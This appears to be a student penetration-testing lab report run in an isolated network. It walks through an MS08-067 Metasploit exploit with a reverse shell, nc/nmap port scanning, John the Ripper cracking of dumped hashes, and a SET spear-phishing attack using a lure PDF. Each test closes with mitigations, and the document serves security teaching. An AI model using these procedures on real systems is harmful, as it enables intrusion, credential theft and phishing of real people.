



## Test 1: [Chapter 4: MS08-067]

### Vulnerability Description
- **About:** MS08-067 is a critical vulnerability in the Windows Server service, specifically in the handling of Remote Procedure Call (RPC) requests. It allows an attacker to execute arbitrary code remotely by sending a specially crafted RPC request to the target system.
- **History:** MS08-067 was prominent in 2008 because it was a remotely exploitable vulnerability affecting multiple versions of Windows XP, making millions of systems worldwide susceptible to attacks. Its widespread exploitation by the Conficker worm highlighted how quickly vulnerabilities could be weaponized, emphasizing the critical importance of timely patching and network security.

### Objective
The objective of this test is to demonstrate and analyze the exploitation of the MS08-067 vulnerability, a flaq in the Windows Server service's handling of Remote Procedure Call (RPC) requests. By successfully exploiting this vulnerability in a controlled environment we are able to:

1. Understand how MS08-067 vulnerability is exploited, including how it allows for remote code execution via a specially crafted RPC request.
2. Validate the effectiveness of exploitation using the Metasploit framework and observe the behavior of the target system when compromised.
3. Know the importance of security patching and network hardening by demonstrating the impact of this vulnerability on unpatched Windows XP systems.
4. Recommend mitigation strategies to prevent similar vulnerabilities from being exploited in real-world scenarios.

### Testing Environment
> Please note that all machines in this test are isloated and contained within a secured environment.
- **Victim:** 
  - Windows XP SP3 English
  - SMB port 445 is open
  - IPv4 Address: `192.168.20.10`

- **Attacker:** 
  - Kali Linux (Any version)
  - Using metasploit module: windows/smb/ms08_067_netapi
  - IPv4 Address: `192.168.20.9`
  - Must be able to reach host on `192.168.20.0/24` subnet

### Testing Procedures
**Setup:**
- **Attacker**:
    - Start msfconsole:
    ```bash
    root@kali:~# msfconsole
    ```
    - Load module: 
    ```
    msf > use windows/smb/ms08_067_netapi 
    msf exploit(ms08_067_netapi) >
    ```
    - Show options (Optional):
    ```bash
    msf exploit(ms08_067_netapi) > show options

    Module options (exploit/windows/smb/ms08_067_netapi):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      RHOST                       yes       The target address
      RPORT      445              yes       Set the SMB service port
      SMBPIPE    BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

    Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting
    ```

    - Set the RHOST to the victim IPv4 address `192.168.20.10`:
    > We can specify the target OS and target port but for testing purposes the default here is sufficient. The Exploit Target is set to 0 Automatic Targeting. This is the target operating system and version.
    ```bash
    msf exploit(ms08_067_netapi) > set RHOST 192.168.20.10
    RHOST => 192.168.20.10
    ``` 
    - Setting the payload:
    ```bash
    msf exploit(ms08_067_netapi) > set payload windows/shell_reverse_tcp
    payload => windows/shell_reverse_tcp
    ```
    - Set the LHOST on the payload `192.168.20.9`:
    ```bash
    msf exploit(ms08_067_netapi) > set LSHOST 192.168.20.9
    LHOST => 192.168.20.9
    ```
    - Set the LPORT on the payload `12345`:
    ```bash
    msf exploit(ms08_067_netapi) > set LPORT 12345
    LPORT => 12345
    ```
    - Run the exploit:
    ```bash
    msf exploit(ms08_067_netapi) > exploit

    [*] Started reverse handler on 192.168.20.9:4444
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] Attempting to trigger the vulnerability...
    [*] Command shell session 2 opened (192.168.20.9:4444 -> 192.168.20.10:1374) at 2024-09-24 15:25:01 -0400
    
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    
    C:\WINDOWS\system32>
    ```
- **Outcome:** 
  Metasploit launches a listener on port 4444 when we enter the exploit in order to capture the target's reverse shell. Next, Metasploit fingerprinted the remote SMB server and chose the right exploit target for us because we had left the target set to Automatic Targeting by default. After choosing the exploit, Metasploit transmitted the exploit string and made an effort to take over the target system and run the payload we had chosen. Our handler caught a command shell since the attack was successful.

### Recommended Mitigation
- **Mitigation Steps:** The simplest way to mitigate the vulnerability of MS08-067 is to Use Microsoft security patch KB958644 that was releasd the same year the vulnerbility was discovered, which fixes the Windows Server service vulnerability, to mitigate the MS08-067 vulnerability on a Windows XP machine.
- **Security Best Practices:** Additionally, to lessen vulnerability to network-based assaults, block port 445 on the firewall and disable non-critical services like SMB. Utilize intrusion detection systems to keep an eye out for attempted exploits and network segmentation to restrict access to susceptible systems for increased security.

---

## Test 2: [Chapter 5: Port Scanning]

### Description
**About:** 

The client may be using a variety of programs that have security flaws. For example, their infrastructure may be misconfigured, which might allow for compromise; weak or default passwords. How would a pentester bea able to figure out the environment without asking the client about system information or network infrastructure? We would use a method such as `port scanning` to sort of recon potential vulnerable systems. 

In the following example we will scan the same Windows XP machine with tools such as `nc` and `nmap`. This would provide details about a target machine and tell the pentester about certain attack vectors that may be exploitable. Port scanning is one of the most imprtant tool in a pentester's toolkit.

### Objective

The objective of this test is to analyze and understand the process of detecting open ports and services on a vulnerable system using two common tools: Netcat and Nmap. By performing these tests in a controlled and isolated environment, the following goals are achieved:

1. **Demonstrate Port Scanning Techniques**: Illustrate how Netcat and Nmap are used to identify open ports and services on a Windows XP SP3 system.
2. **Understand System Behavior**: Observe how the victim system responds to manual port scanning (Netcat) and automated scanning (Nmap), including service banners and responses.
3. **Evaluate Security Risks**: Highlight the potential risks of leaving unnecessary ports open and the ability of attackers to gather information about services and system vulnerabilities.
4. **Recommend Mitigations**: Provide actionable steps to secure systems from unauthorized scanning attempts, emphasizing the importance of firewalls, intrusion detection systems, and network segmentation.

### Testing Environment
> Please note that all machines in this test are isloated and contained within a secured environment.
- **Victim:** 
  - Windows XP SP3 English
  - Firewall must be off
  - IPv4 Address: `192.168.20.10`

- **Attacker:** 
  - Kali Linux (Any version)
  - Using `nmap` and `nc`
  - IPv4 Address: `192.168.20.9`
  - Must be able to reach host on `192.168.20.0/24` subnet

### Testing Procedures
**Method 1**: Netcat
- **Attacker**:
    - On Kali Linux run `nc` to do manual port scanning:
    ```bash
    root@kali:~# nc -vv 192.168.20.10 25
    nc: 192.168.20.10 (192.168.20.10) 25 [smtp] open
    nc: using stream socket
    nc: using buffer size 8192
    nc: read 66 bytes from remote
    220 bookxp SMTP Server SLmail 5.5.0.4433 Ready
    ESMTP spoken here
    nc: wrote 66 bytes to local
    ```
    - **Outcome**: Here we see the Windows XP box is running an SMTP server on port 25. After a successful connection, the SMTP server announced itself as SLMail ­version 5.5.0.4433.


**Method 2**: Nmap
- **Attacker**:
    - On Kali Linux run `Nmap` to scan the host machine on port `3232`:
    ```bash
    root@kali:~# nmap -sS -p 3232 192.168.20.10
    Starting Nmap 6.40 ( http://nmap.org ) at 2024-10-06 23:43 EDT
    Nmap scan report for 192.168.20.10
    Host is up (0.00056s latency).
    PORT      STATE SERVICE
    3232/tcp  open  unkown
    MAC Address: 00:0C:29:A5:C1:24 (VMware)
    Nmap done: 3 IP addresses (3 hosts up) scanned in 1070.40 seconds
    ```
    - **Outcome**: Nmap is an industry standard for port scanning. When performing a SYN scan, Nmap sends the SYN and, if the port is open, waits for the SYN-ACK; however, it never sends the ACK to finish the connection. If the port is unavailable, it is either closed or the connection is being screened if the SYN packet returns no SYN-ACK response. In this manner, Nmap determines whether a port is open without ever establishing a complete connection with the target system.

### Recommended Mitigation
- **Mitigation Steps:** Blocking unnecessary ports would be one of the simplest ways to prevent someone from knowing things about your machine and vulnerabilities it may have. Configure firewalls to block all ports except those required for legitimate use.
- **Security Best Practices:** Additionally, to prevent certain scans to your network, deploy an IDS/IPS like Snort or Suricata to monitor for suspicious traffic patterns that match port-scanning signature.

---

## Test 3: [Chapter 9: (Offline) Password Cracking]

### Description
**About:** 
One of my favorite ways to crack a password is doing an offline password cracker like John the ripper. Getting a copy of the password hashes and trying to reverse them back to plaintext passwords is one approach to break passwords without being discovered. This is simpler said than done since hashes are meant to be the output of a one-way hash function: The hash function allows you to compute the output from an input; yet, given the output, you cannot consistently find the input.

But with john the ripper we can discretely crack the passwords using hashes we obtained through our previous exploits. This is also very important to understand why protecting hashes like we find in our `/etc/shadow` file is critical when securing our system.

### Objective

The objective of this test is to demonstrate and understand the process of offline password cracking using John the Ripper, a powerful password recovery tool. By analyzing the effectiveness of cracking different hash types, this test aims to:

1. **Understand Password Vulnerabilities**: Highlight the importance of protecting hashed passwords and the risks when hashes are exposed through system exploits.
2. **See How Password Cracking Works**: Demonstrate the capabilities of John the Ripper in recovering plaintext passwords from compromised hash files, including LM, NTLM, and MD5 hashes.
3. **Understand Security Risks**: Assess how weak hashing algorithms or poorly created passwords increase risks to brute-force and dictionary attacks.
4. **Promote Strong Security Practices**: Provide recommendations for storing passwords securely, using modern hashing methods, and employing additional layers of defense to mitigate the risks of offline attacks.

### Testing Environment
> Please note that all machines in this test are isloated and contained within a secured environment.
- **Victim:** 
  - Windows XP SP3 English
  - Recently acquired hash file from previous exploits

- **Attacker:** 
  - Kali Linux (Any version)
  - John the ripper tool

### Testing Procedures
**Using**: John the Ripper
- **Method 1:**
    - On Kali run `hashdump` on an already acquired meterpreter session and save it to a file, for example: `xphashes.txt`:
    > You may skip this step if you already have a pre-existing hashfile or one found in Kali `/etc/shadow`
    ```bash
    meterpreter > hashdump
    Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
    georgia:1003:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:df40c521ef762bb7b9767e30ff112a3c:938ce7d211ea733373bcfc3e6fbb3641:::
    secret:1004:e52cac67419a9a22664345140a852f61:58a478135a93ac3bf058a5ea0e8fdb71:::
    SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:bc48640a0fcb55c6ba1c9955080a52a8:::
    ```
    - Run `john` with the hash file `xphashes.txt`:
    ```bash
    root@kali: john xphashes.txt
    Warning: detected hash type "lm", but the string is also recognized as "nt"
    Use the "--format=nt" option to force loading these as that type instead
    Loaded 10 password hashes with no different salts (LM DES [128/128 BS SSE2])
                    (SUPPORT_388945a0)
    PASSWOR         (secret:1)
                    (Guest)
    PASSWOR         (georgia:1)
    PASSWOR         (Administrator:1)
    D               (georgia:2)
    D               (Administrator:2)
    D123            (secret:2)
    ```
    - **Outcome**: John the Ripper breaks the hashes with seven characters. PASSWOR appears first as the half of the user secret password. Likewise, the first part of the georgia and Administrator password is georgia. The second part of secret's password is D123; georgia and Administrator's are D. The LM-hashed passwords have complete plaintext as Administrator and PASSWORD123 for secret and PASSWORD for georgia. If you try logging in to the Windows XP machine as Administrator or georgia with the password PASSWORD or the account secret PASSWORD123 you will get a login error since LM hash does not take into account the correct case of the letters in the password.


- **Method 2:**
  - We could also run `john` against linux passwords as well. Here we have a sample linux hash-file called `linuxpasswords.txt` that as one entry for the user `georgia`.
  > This example could also be found in your `/etc/shadow` file.
  ```bash
  root@kali# cat linuxpasswords.txt
  georgia:$1$CNp3mty6$lRWcT0/PVYpDKwyaWWkSg/:15640:0:99999:7:::
  root@kali# john linuxpasswords.txt --wordlist=passwordfile.txt
  Loaded 1 password hash (FreeBSD MD5 [128/128 SSE2 intrinsics 4x])
  password         (georgia)
  guesses: 1 time: 0:00:00:00 DONE (Sun Jan 11 05:05:31 2015) c/s: 100
  trying: password - Password123
  ```
  - **Outcome:** User georgia has an MD5 hash; the \$1\$ at the password hash tells us this. Brute-forcing MD5 is not efficient in a reasonable amount of time. Rather, John the Ripper uses a wordlist including the --wordlist option. The success of John the Ripper in breaking the password is dependent on the password being included in our wordlist exactly.


### Recommended Mitigation
- **Mitigation Steps:** Store passwords using strong hash algorithms as bcrypt or Argon2, which are resistant to brute-force attacks, therefore reducing the risk of offline password cracking using tools like John the Ripper. Update hash methods often to fight developments in cracking methods.
- **Security Best Practices:** Teach consumers to use passphrases and to create secure passwords combining uppercase, lowercase, digits, and special characters. Review password rules often to make sure they satisfy present security requirements. Implement multi-factor authentication (MFA) to provide extra protection and greatly complicate attackers' access even if passwords are hacked.
---

## Test 4: [Chapter 11: Social-Engineer Toolkit (SET)]

### Description
**About:** 
Designed to enable you execute social-engineering attacks, TrustedSec's opensource Python-driven toolkit (also known as SET) is a well knowing curated social engineering tool that can create malicious emails and bogus websites. Basically, we will investigate utilizing set how phishing is done through email. The way the established toolkit is used will help you to realize the need of exercising caution while opening dubious email links.
### Objective

The goal of this test is to show how well spear-phishing works as a way of social engineering. This test shows how attackers use human trust and software flaws to get into target systems by sending an appealing phishing email with a malicious payload attached. It also stresses how important it is to understand these methods to stress the need for strong security measures, user education, and proactive ways to stop problems before they happen. This test serves to:

1. Illustrate how spear-phishing can deliver a malicious payload to unsuspecting users.
2. Evaluate the risks posed by unpatched software and user interaction with suspicious emails.
3. Promote security practices to mitigate similar attacks, such as email filtering, software updates, and employee training.

### Testing Environment
> Please note that all machines in this test are isloated and contained within a secured environment.
- **Victim:** 
  - Windows XP SP3 English
  - IPv4 Address: `192.168.20.10`
  - email to spear-phish: georgia@metasploit.com

- **Attacker:** 
  - Kali Linux (Any version)
  - The setoolkit
  - IPv4 Address: `192.168.20.9`

### Testing Procedures
**Using**: Social-Engineer Toolkit
- **Kali:** Setup
  - Start SET by running the following command: 
  ```bash
  root@kali:~# setoolkit
  ```
  - You should see a plethora of options as SET can be used in many ways to "trick" your victim into opening those malicious files. For now, we will use option 1 Spear-Phishing Attack Vectors:
  ```bash
  set> 1
  ```
- **Method 1:** Spear-Phising
  - The options for Social-Engineering Attacks offers us numerous assault choices. We will design a spear-phishing attack, email them, and immediately set up a Metasploit handler to capture the payload, therefore enabling us to produce infected files for client-side attacks. Next, we choose 1 Perform a Mass Email Attack:
  ```bash
  1) Perform a Mass Email Attack
  2) Create a FileFormat Payload
  3) Create a Social-Engineering Template
  ...more
  set:phishing> 1
  ```
  - We now have to set a payload. We will be using a vulnerability found in a previous version in Adobe that exploits a Buffer Overflow.
  ```bash
        ********** PAYLOADS **********
  ...
  12) Adobe util.printf() Buffer Overflow
  ...
  set:payloads> 12
  ```
  - Next, we'll choose option 2 to use our good old faithful reverse_tcp:
  ```bash
  1) Windows Reverse TCP Shell            Spawn a command shell on victim and send back to attacker
  2) Windows Meterpreter Reverse_TCP      Spawn a meterpreter shell on victim and send back to attacker 
  ...
  set:payloads> 2
  ```
  - SET should prompt for the relevant options for the payload, in this case the LHOST and LPORT. Configure them to your preference.
  ```bash
  set> IP address for the payload listener: 192.168.20.9
  set:payloads> Port to connect back on [443]:
  [-] Defaulting to port 443...
  [-] Generating fileformat exploit...
  [*] Payload creation complete.
  [*] All payloads get sent to the /usr/share/set/src/program_junk/template.pdf
  directory
  [-] As an added bonus, use the file-format creator in SET to create your
  attachment.
  ```
  - You will be prompted to name your malicious file. This is optional but we can name it to be enticing to anyone who comes across it to want to open the file. Here, I would bet that ANY students would be interested in opening a file called `Spring2024_MidtermGrades.pdf`:
  ```bash
  Right now the attachment will be imported with filename of 'template.whatever'
  Do you want to rename the file?
    example Enter the new filename: moo.pdf
    1. Keep the filename, I don't care.
    2. Rename the file, I want to be cool.
  set:phishing> 2
  set:phishing> New filename: Spring2024_MidtermGrades.pdf
  [*] Filename changed, moving on...
  ```
  - We now have to decide if we want SET to send our malicious file to a single email address or to send to a list of addresses. We choose option 1 for our spear-phishing test.
  ```bash
  Social Engineer Toolkit Mass E-Mailer

  What do you want to do:
  
  1. E-Mail Attack Single Email Address
  2. E-Mail Attack Mass Mailer
  ...
  99. Return to main menu.
  
  set:phishing> 1
  ```
  - The next prompt will ask how you want the template to be created. Here, we will use option 5:
  ```bash
  Do you want to use a predefined template or craft a one time email template.
    1. Pre-Defined Template
    2. One-Time Use Email Template

  set:phishing> 1
  [-] Available templates:
  1: Strange internet usage from your computer
  2: Computer Issue
  3: New Update
  4: How long has it been
  5: WOAAAA!!!!!!!!!! This is crazy...
  6: Have you seen this?
  7: Dan Brown's Angels & Demons
  8: Order Confirmation
  9: Baby Pics
  10: Status Report
  set:phishing> 5
  ```
  - Finally, we have to provide an email to send our malicious file to. We will use gmail for this attack by choosing option 1.
  ```bash
  set:phishing> Send email to: georgia@metasploit.com
    1. Use a gmail Account for your email attack.
    2. Use your own server or open relay
  set:phishing> 1
  set:phishing> Your gmail email address: georgia@bulbsecurity.com
  set:phishing> The FROM NAME user will see: Georgia Weidman
  Email password:
  set:phishing> Flag this message/s as high priority? [yes|no]: no
  [!] Unable to deliver email. Printing exceptions message below, this is most
  likely due to an illegal attachment. If using GMAIL they inspect PDFs and is
  most likely getting caught. u
  [*] SET has finished delivering the emails
  ```
  > The email will not be sent due to the nature of our testing environment. Of course the email will be sent to a fake email given in this scenario.
  
  - SET also has a convenient way to set up our phishing attack by setting up a listener at the end of our curated phishing email.
  ```bash
  set:phishing> Setup a listener [yes|no]: yes
  Easy phishing: Set up email templates, landing pages and listeners
  in Metasploit Pro's wizard -- type 'go_pro' to launch it now.

      =[ metasploit v4.8.2-2014010101 [core:4.8 api:1.0]
      + -- --=[ 1246 exploits - 678 auxiliary - 198 post
      + -- --=[ 324 payloads - 32 encoders - 8 nops

  [*] Processing src/program_junk/meta_config for ERB directives.
  resource (src/program_junk/meta_config)> use exploit/multi/handler
  resource (src/program_junk/meta_config)> set PAYLOAD windows/meterpreter/
  reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  resource (src/program_junk/meta_config)> set LHOST 192.168.20.9
  LHOST => 192.168.20.9
  resource (src/program_junk/meta_config)> set LPORT 443
  LPORT => 443
  ...
  resource (src/program_junk/meta_config)> exploit -j
  [*] Exploit running as background job.
  msf exploit(handler) >
  [*] Started reverse handler on 192.168.20.9:443
  [*] Starting the payload handler...
  ```
  - Now we wait for our victim machine to open the file and automatically open a meterpreter reverse tcp session to our attacker host.
  
  - **Outcome:** The Social Engineering Toolkit's (SET) spear-phishing test showed the process needed to create and distribute a phishing email with a malicious payload. The generated payload was embedded into a PDF file, named "Spring2024_MidtermGrades.pdf," which was designed to appear enticing to the victim. This payload utilized an Adobe util.printf() buffer overflow vulnerability and a reverse TCP Meterpreter shell to establish a connection back to the attacker's system. Eventually, opening of the malicious file on the victim machine, a reverse TCP session would open, providing the attacker with full control over the system. 


### Recommended Mitigation
- **Mitigation Steps:** Spear-phishing attacks can be mitigated by reducing user exposure to malicious emails and payloads. To close gaps in security, companies should make sure that all of their employees regularly install software updates and patches, especially for Adobe Reader and other widely used programs. Using strong email screening and scanning attachments can also make it much less likely that malicious files are delivered to end users.
- **Security Best Practices:** A strong defense against phishing involves fostering a culture of cybersecurity awareness. Multi-factor authentication (MFA) adds an extra layer of security that makes it hard for hackers to use stolen credentials. Monitoring networks and simulating phishing attacks on a regular basis can help find weak spots and make users and organizations better at handling threats.
---

## Citations/Screenshots
- ### Test 1





